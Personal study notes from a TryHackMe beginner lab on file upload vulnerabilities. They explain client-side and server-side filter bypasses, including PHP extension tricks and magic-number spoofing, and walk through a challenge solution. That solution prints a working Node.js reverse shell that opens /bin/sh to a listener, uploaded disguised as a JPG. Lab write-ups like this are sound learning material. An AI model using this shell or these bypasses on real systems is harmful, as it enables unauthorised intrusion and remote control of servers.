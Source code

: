 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-10-09

## Upload Vulnerabilities

### Bypassing Client-Side Filtering

How to bypass:

* Just turn off JavaScript.
* Use Burp Suite to modify the incoming page to remove the filter (often needs to be done before the page is loaded).
* Use Burp Suite to modify the file upload *after* it has passed the filters.
* Use curl to send the file directly to the upload endpoint (make a good upload first to see what that looks like).

To modify the page in Burp Suite, first get the server response by right-clicking on the outgoing intercept and choosing Do intercept > Response to this request. When we forward the request, the response will then be intercepted, and we can modify it as desired.

NOTE: Burp Suite does not intercept JavaScript files; to do this, we'll need to modify the proxy's default file extension filter under "Options".

Modifying the file upload itself is much easier, as this can be done using Burp Suite's normal interception flow. Note that Burp Suite *cannot* attach new files, so we'll need to modify the upload file (extension, etc.) to get past the filters, then undo our changes in the outgoing request.

Sending a file via curl is basically the same procedure as modify the file upload request, except that we let a good file go through so we can see the upload endpoint and then communicate with that directly.

```bash
curl -X POST -F "submit=$SUBMIT_VALUE" \
             -F "${FILE_INPUT NAME}=@$PATH_TO_FILE" $URL
```

### Bypassing Server-Side Filtering: File Extensions

Basically, bypassing server-side filters is going to involve a lot of trial and error until we figure out what the filter is (and how to work around it).

The trick, of course, is not only that you need to upload your file, but that you need to use an extension that the server will execute!

Note that sometimes developers just check to see if a valid extension exists within a file, so things like reverse-shell.jpg.php will work. Happy days if this is you.

Common file extensions for PHP:

* .php
* .phar
* .phtml
* .pht
* .phps (though I've always seen this as *source* code)
* .php# (where `#` is the running PHP major version)

References:

* [PHP (Wikipedia)](https://en.wikipedia.org/wiki/PHP)

### Bypassing Server-Side Filtering: Magic Numbers

To recap: This is (generally) the first 4 bytes of a file. Apparently, text files don't have magic number, so one trick you can do is just insert four ASCII characters in the front of your file and then use a hex editor to change them to an appropriate magic number.

[Wikipedia's list of magic numbers.](https://en.wikipedia.org/wiki/List_of_file_signatures)

The `hexeditor` app is a quick-and-easy hex editor, and `file` can give you a sense of whether you've effectively spoofed a file's magic number.

Note that this can be a lot trickier if you're not dealing with PHP, since many languages don't have PHP's concept of interpreted vs. non-interpreted bits.

### Example Methodology

The `Server` and `X-Powered-By` HTTP headers, if present, can be handy for figuring out what language we're dealing with.

Since many servers turn off directory indexing and randomize file names, its helpful if we can figure out some place that displays or links to the file we just uploaded. If there's no option here, gobuster's -x switch allows a search for specific file extensions (but then the search is *within* a particular directory).

There's probably server-side filtering, so bypass everything client-side and then look for an error message. Using curl to hit an endpoint directly is probably not as useful as Burp Suite here... Tricks:

* Use completely valid and invalid extensions to check for the presence of white/blacklists.
* Try changing the magic number of a known good file to see if magic number filtering is in place.

### Challenge

Potentially interesting directories in /content, /assets, /modules, /admin.

The provided wordlist is combinations of three capital letters. The backgrounds files also follow this pattern (ABH.jpg, LKQ.jpg, SAD.jpg, UAD.jpg). All backgrounds are located in the /content directory (and the form says that uploaded files will be added to the slides), so I'll bet that this is where uploaded files go. I did one good upload (and then a scan with gobuster) to verify this.

The server's response when loading a page indicates that it is running Express. So we'll need a Node.js compatible reverse shell. I used the first option from the Reverse Shell Cheat Sheet (note that the port and IP address in line 6 need to be customized).

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents Node.js from crashing
})();
```

(NOTE: I actually tried the more compact shell listed after this on the Reverse Shell Cheat Sheet, but it didn't work.)

The /assets/js/upload.js script handles uploads. It requires files less than 400k in size with the first three bytes matching the JPG magic number (these are the only three bytes that are consistent between all JPG magic numbers) and an extension of .jpg or .jpeg.

Initially I tried to add the relevant magic bytes to the front of my JS file with the idea that I would edit them out of the request once they made it through the client-side filtering. However, when I viewed the request I discovered that content was base64 encoded, so I just used `base64 -w 0` to encode the shell *without* the leading bytes and replaced the uploaded file entirely.

(NOTE: Initially I changed the MIME type to text/plain, but the server rejected this. Leaving it as image/jpeg worked though, no matter what the file extension. Note that the MIME type on the base64-encoded line didn't seem to matter.)

Re-scanning the /content directory with gobuster for .js files revealed nothing, but rescanning for .jpg revealed that the server was renaming all files with the .jpg extension. Fortunately, the uploaded shell was so much smaller than either the pre-existing images or my uploaded test that it was easy to pick out

THIS IS WHERE I GOT STUCK. I finally wound up looking at the challenge hints, most of which it turned out I'd already figured out. But Hint 9 suggested looking at the /admin page, which I hadn't bothered to try to visit. LET THAT BE A LESSON TO ME - POKE AROUND MORE!

The admin page indicates that it loads modules, so this is how we're going to get the Express app to execute the reverse shell (I'd been wondering how I was going to get it loaded into memory up until this point). Loading ../content/XKM.jpg (which is where my shell wound up) in this page resulted popped the shell, after which grabbing the flag was easy.

* [Express](http://expressjs.com/)
* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [TryHackMe: File Upload Vulnerabilities - Hints](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/)
